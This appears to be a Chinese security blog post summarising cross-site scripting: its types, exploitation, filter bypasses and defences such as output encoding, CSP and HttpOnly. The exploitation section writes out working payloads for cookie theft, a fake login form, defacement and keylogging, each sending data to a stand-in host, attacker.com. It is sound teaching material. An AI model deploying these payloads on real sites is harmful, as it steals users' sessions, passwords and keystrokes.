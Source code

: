 ```yaml
---
layout: mypost
title: XSS总结
categories: [Web]
extMath: true
---
```


# XSS总结

## 原理

Web 应用程序将用户输入的数据，未经充分过滤或编码，就直接输出到 HTML 页面中，导致浏览器将用户的输入误当作可执行的脚本来解析和执行。

## 分类

### 反射型

恶意脚本作为**请求的一部分**（如URL参数）发送给服务器，服务器将其“反射”回响应中，浏览器立即执行。**非持久化**，需要诱骗用户点击特定链接。
例如：[`http://example.com/search?q=](http://example.com/search?q=)<script>alert(1)</script>`

### 存储型

恶意脚本被**永久存储**在服务器上（如数据库、评论、留言板）。任何用户访问包含此内容的页面时，脚本都会被自动加载和执行。**危害最大**。
例如：在博客评论区提交恶意评论，之后所有访客都会中招。

### DOM型

漏洞存在于客户端的**JavaScript代码**中，而非服务器端。网站的JS代码**不安全地处理了来自DOM的数据**（如 `document.location.hash`），并将其写入了页面DOM，导致代码执行。
例如：

```bash
// 假设URL是：http://example.com#<img src=x onerror=alert(1)>
var content = document.location.hash.substring(1);
document.getElementById("message").innerHTML = "Welcome, " + content; // 漏洞点

```

## 利用

1. 窃取cookie
    
    获取用户的会话 Cookie（反射XSS+社工，存储XSS），并发送到攻击者的服务器，从而冒充合法用户登录或调取数据。
    
    ```bash
    <script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script>
    
    <script>new Image().src='http://attacker.com/steal?cookie='+encodeURIComponent(document.cookie)</script>
    
    <img src="x" onerror="this.src='http://attacker.com/steal?cookie='+encodeURIComponent(document.cookie)">
    ```
    
2. 钓鱼
    
     在页面上动态创建一个假的登录框（反射XSS+社工，存储XSS），欺骗用户输入用户名和密码。
    
    ```bash
    <div style="position: fixed; top: 0; left: 0; width: 100%; height: 100%; background: rgba(0,0,0,0.8); z-index: 9999;">
      <div style="position: absolute; top: 50%; left: 50%; transform: translate(-50%, -50%); background: white; padding: 20px; text-align: center;">
        <h3>您的会话已过期，请重新登录</h3>
        <form action="http://attacker.com/phish" method="POST">
          用户名: <input type="text" name="username"><br><br>
          密码: <input type="password" name="password"><br><br>
          <input type="submit" value="登录">
        </form>
      </div>
    </div>
    ```
    
3. 网站篡改
    
    修改页面内容，发布虚假信息，损害网站声誉。
    
    ```bash
    <script>document.body.innerHTML = '<h1>该网站已被黑！</h1>' + document.body.innerHTML</script>
    
    <div style="position: fixed; top: 0; width: 100%; background: red; color: white; text-align: center; z-index: 9999;">
      <strong>安全警告：该站点存在安全漏洞！</strong>
    </div>
    ```
    
4. 键盘记录
    
     监听用户的键盘事件，窃取敏感输入。
    
    ```bash
    <script>
    let log = '';
    document.onkeypress = function(e) {
      log += e.key; // 记录按下的键
      // 每输入10个字符就发送一次数据，避免过于频繁的请求
      if (log.length > 10) {
        new Image().src = 'http://attacker.com/log?k=' + encodeURIComponent(log);
        log = '';
      }
    }
    </script>
    
    ## 实时发送
    <script>
    // 监听所有按键事件（包括退格键、功能键等）
    document.addEventListener('keydown', function(e) {
      fetch('http://attacker.com/log', {
        method: 'POST',
        body: JSON.stringify({ 
          key: e.key, 
          code: e.code,
          time: new Date().toISOString()
        })
      });
    });
    </script>
    ```
    
5. 绕过CSRF限制
    
    也就是用XSS把token获取到后进行CSRF攻击
    
6. 制作XSS蠕虫
    
    假设存在一个存储型XSS，目标一点击后在目标A的账号下发布部署同样的XSS payload，进而进行链式传播。
    

## 绕过

1. **编码绕过**：
    - 对 payload 进行各种编码（HTML实体、URL、JS Unicode、Base64等）。
    - 例：`<script>` -> `&lt;script&gt;` (但可能被解码) 或 `\u003cscript\u003e`
2. **语法混淆**：
    - 利用JS语法特性：`<img src=x onerror=alert(1)>` (最常用)
    - 不使用空格：用`/`或其它字符代替：`onerror=alert(1)`
    - 使用非常规标签或事件：`<svg onload=alert(1)>`, `<details ontoggle=alert(1)>`
    - 大小写混淆：`<ScRiPt>alert(1)</sCrIpT>`
    - 双写绕过：`<scr<script>ipt>alert(1)</script>`
3. **利用JavaScript特性**：
    - 字符串拼接：`"al" + "ert(1)"`
    - 使用 `eval()`、`setTimeout()`、`Function()` 等动态执行函数：`eval('al'+'ert(1)')`
    - 使用反引号执行命令：`alert`1``
4. **伪协议**：
    - `javascript:alert(1)` (常用于 `<a href>` 或 `iframe src`)

## 防御

1. 输入验证
    
    对用户输入进行严格的**白名单**校验（只允许允许的字符、长度、格式），但不要仅依赖黑名单。
    
2. 输出编码/转义
    - **HTML 上下文:** 将 `<`, `>`, `&`, `"`, `'` 分别转义为 `&lt;`, `&gt;`, `&amp;`, `&quot;`, `&#39;`。
    - **JavaScript 上下文:** 在将数据插入到 JS 代码块时，对非字母数字字符进行 `\xHH` 格式的编码。
    - **CSS 上下文:** 对用户数据进行编码，防止注入恶意样式或表达式。
    - **URL 上下文:** 使用 `URLEncoder` 对要放入链接中的参数进行编码。
3. 内容安全策略（**CSP**）
通过 HTTP 头部 `Content-Security-Policy` 告诉浏览器哪些来源的脚本是可信的、可以执行的。
例如：
    
    `Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.cdn.com;`
    
     只允许加载本域和 `trusted.cdn.com` 的脚本，有效阻止内联脚本和未授权域的脚本执行。
    
4. 设置HTTPOnly
在设置关键 Cookie (如 Session ID) 时，加上 `HttpOnly` 标志。
禁止 JavaScript 通过 `document.cookie` 访问该 Cookie，即使 XSS ，也无法轻易窃取会话。
5. 使用现代web框架
    
    前端：React, Vue, Angular
    
    后端：Django, Ruby on Rails
